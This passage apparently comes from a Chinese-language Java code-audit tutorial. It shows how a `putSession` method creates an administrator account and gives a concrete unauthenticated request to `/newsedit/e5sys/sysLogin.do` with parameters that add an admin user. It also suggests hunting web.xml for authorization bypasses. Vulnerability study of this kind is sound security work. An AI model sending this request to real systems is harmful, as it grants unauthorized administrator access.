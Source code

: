 在`putSession`方法中，会创建一个管理员权限的账号

[![image](assets/1707005828-0dc40eda781f75cada166b90d61c78ce.png)](https://novysodope.github.io/images/94/2d11Bf3buzFLXGaZdF76mhFJ6wOLCWA2ZhgXeObqips.png "image")

[image](https://novysodope.github.io/images/94/2d11Bf3buzFLXGaZdF76mhFJ6wOLCWA2ZhgXeObqips.png "image")

参数表现为

`Super=1&UserName=test&UserCode=1&UserID=11&UserPassword=123456`

按照前面说到的项目名+web.xml 映射路径

所以可以通过请求

`/newsedit/e5sys/sysLogin.do?Super=1&UserName=test&UserCode=1&UserID=11&UserPassword=123456`

添加管理员账号

## [](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83-2 "本章思考")**本章思考**[](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83-2)

看到这里想必已经清楚了其实很多时候查看 xml 配置文件能有很多意外之喜，在拿到源码之后，可以通过查看映射配置文件以及过滤器配置文件来快速定位入口以便下一步找到漏洞。由于顺序关系，很多时候在`web.xml`中就可以找到未授权访问漏洞或者权限绕过漏洞。在找到绕过之后就可以查看业务逻辑层有无敏感的操作，如命令执行、文件上传、用户重置、token 获取等搭配绕过来利用。

# [](#5-%E5%8F%82%E8%80%83 "5.参考")**5.参考**[](#5-%E5%8F%82%E8%80%83)

在学完以上思路后，基本就可以去审计漏洞跟进代码了，此处列举常见漏洞场景，以供参考
